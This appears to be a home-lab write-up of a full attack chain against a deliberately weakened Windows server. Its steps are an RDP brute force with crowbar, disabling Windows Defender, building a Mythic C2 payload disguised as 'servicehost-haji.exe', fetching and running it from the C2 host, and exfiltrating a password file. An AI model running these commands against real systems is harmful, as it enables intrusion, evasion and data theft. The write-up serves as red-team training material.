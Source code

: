 
### 1. Introduction

Goal: Perform an RDP brute force attack using Kali Linux, generate a Mythic C2 agent and host it, establish a C2 session from a compromised Windows server and exfiltrate a sensitive file to complete the attack chain.

---

### 2. Objective

- Launch a brute force attack on a Windows server.
- Run discovery and defense evasion commands.
- Build and host a Mythic payload.
- Download and execute the payload on the Windows target.
- Establish a C2 session and exfiltrate the `passwords.txt` file.

---

### 3. Preparing the Windows Server

1. **Create Fake Password File**
    - Navigate to `Documents` and create a file named `passwords.txt`.
        ![[Pasted image 20251018160503.png]]

2. **Change Windows Password**
    
    - Go to:  
        `Start Menu` → Username → `Change Account Settings` → `Sign-in Options` → Password → `Change`
        
    - Set the new password to `Winter2024!`.
        
3. **Adjust Password Policy (if required)**
    
    - Minimum password length: **5 characters**
        
    - Disable complexity requirements in _Local Group Policy Editor_.
        

---

### 4. Performing RDP Brute Force Attack

1. **Prepare Wordlist**
    
    - Navigate to Kali Linux terminal:
        
        `cd /usr/share/wordlists sudo gunzip rockyou.txt.gz head -n50 rockyou.txt > ~/Desktop/Challenge-Wordlist.txt echo "Winter2024!" >> ~/Desktop/Challenge-Wordlist.txt`
        
2. **Install Crowbar**
    
    `sudo apt-get update && sudo apt-get upgrade -y sudo apt-get install -y crowbar`
    
3. **Create Target File**
    
    - Add Windows Server IP and username.
        
4. **Run Brute Force Attack**
    
    `crowbar -b rdp -u Administrator -C Challenge-Wordlist.txt -s <Challenge-WIN-Haji-IP>/32`
    
5. **Successful Login**
    
    - Username: `Administrator`
        
    - Password: `Winter2024!`
        

---

### 5. Connecting to the Windows Server

1. **Establish RDP Session**
    
    `xfreerdp /u:Administrator /p:Winter2024! /v:<Challenge-WIN-Haji-IP>:3389`
    
2. **Trust the certificate** to complete the connection.
    

---

### 6. Discovery Phase

Run basic discovery commands in PowerShell or CMD:

`whoami ipconfig net user net group net user Administrator`

---

### 7. Defense Evasion

Disable Windows Defender:

- Open **Windows Security** → **Virus & Threat Protection**.
    
- Disable Real-time protection and other security features.
    

---

### 8. Execution Phase (Mythic Agent Setup)

1. **Access Mythic Server**
    
    `ssh root@<Challenge-Mythic-IP>`
    
2. **Install Apollo Agent**
    
    `./mythic-cli install github https://github.com/MythicAgents/Apollo`
    
3. **Install HTTP C2 Profile**
    
    `./mythic-cli install github https://github.com/MythicC2Profiles/http`
    
4. **Create Payload in Mythic Web GUI**
    
    - Target OS: **Windows**
        
    - Output Format: **WinExe**
        
    - Commands: **Include All**
        
    - C2 Profile: **HTTP**
        
    - Callback Host: `http://<Challenge-Mythic-IP>`
        
    - Port: `80`
        
    - Payload Name: `ChallengeMythicPayload`
        

---

### 9. Hosting and Downloading Payload

1. **Download Payload**
    
    `wget <payload_download_link> --no-check-certificate mv <payload_name>.exe servicehost-haji.exe`
    
2. **Serve Payload over HTTP**
    
    `ufw allow 9999 python3 -m http.server 9999`
    
3. **Download on Windows Target**
    
    `Invoke-WebRequest -Uri http://<Challenge-Mythic-IP>:9999/servicehost-haji.exe -OutFile C:\Users\Public\Downloads\servicehost-haji.exe`
    
4. **Allow Port 80**
    
    `ufw allow 80`
    
5. **Execute Payload**
    
    `.\servicehost-haji.exe`
    
6. **Verify Connection**
    
    `netstat -anob`
    
    - Also check Task Manager or Mythic GUI callbacks.
        

---

### 10. Establishing C2 Connection

- Open Mythic Web GUI → **Active Callbacks**.
- Interact with the agent and run:
    
    `whoami ipconfig`
    

---

### 11. Exfiltration

1. **Download the Target File**
    
    `download C:\Users\Administrator\Documents\passwords.txt`
    
2. **Verify in Mythic Web GUI**
    
    - Navigate to **Files** → Check `passwords.txt` contents.
        


**Reference**
https://youtu.be/85x0NLj2zUo?si=_cpuOgH-OqAYwgYo